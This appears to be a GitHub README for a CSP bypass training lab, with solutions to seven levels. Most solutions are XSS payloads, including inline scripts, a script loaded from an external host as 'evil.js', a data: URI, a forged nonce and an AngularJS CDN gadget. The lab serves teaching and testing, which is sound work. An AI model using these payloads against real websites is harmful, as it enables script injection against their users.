 # CSP Bypass Lab
Bypass project of CSP security standard, which is a protection method for XSS vulnerability.

http://cspbypass.ml

## What is CSP
Content Security Policy is a computer security standard that was introduced to prevent cross-site scripting, click-through, and other code injection attacks resulting from the execution of malicious content in the context of a trusted web page.
## Challenges
- unsafe-inline
- External Resource
- data directive
- src nonce
- Common uses JS CDN
- Google Callback Functions

## Solutions
Check https://csp-evaluator.withgoogle.com before solutions.
#### Level 1
As a result of the 'unsafe-inline' directive used, if the input entered contains a script tag, the javascript is triggered. Example payload 

```sh
<script>alert(1)</script>
```
#### Level 2
JS codes from yourjavascript.com, which is an external resource, will be allowed. It is triggered by malicious JS code. Go to yourjavascript.com , create malicious code and upload.
```sh
<script type="text/javascript" src="http://yourjavascript.com/0513280132/evil.js"></script>
```

#### Level 3
data: URI in script-src allows the execution of unsafe scripts.
```sh
<script src=data:text/javascript,alert(1337)></script>
```

### Level 4
We see the base64 encode form of current time's as the nonce value in response as the CSP rule. Example payload
```sh
<script nonce="MjcuMDMuMjAyMS8yMjoxNw==">alert(1)</script>
```

### Level 5
One of the most used JavaScript CDNs is cdnjs.cloudflare.com. At this level, we will try to trigger XSS on a page that has Cloudflare allowed CDN resources.
```sh
<Script Src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.6.0/angular.min.js> </Script><K Ng-App>{{$new.constructor('alert(1)')()}}
```

### Level 6
Same as the previous level, here you can use callback functions.

### Level 7
Given this CSP header:
Content-Security-Policy: frame-src https://example.com
The following <iframe> is blocked and won't load:
```sh
<iframe src="https://not-example.com/"></iframe>
```

Call the allowed page in Frame.

##### Useful Resources

- https://www.netsparker.com/blog/web-security/content-security-policy/
- https://brutelogic.com.br/blog/csp-bypass-guidelines/
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy


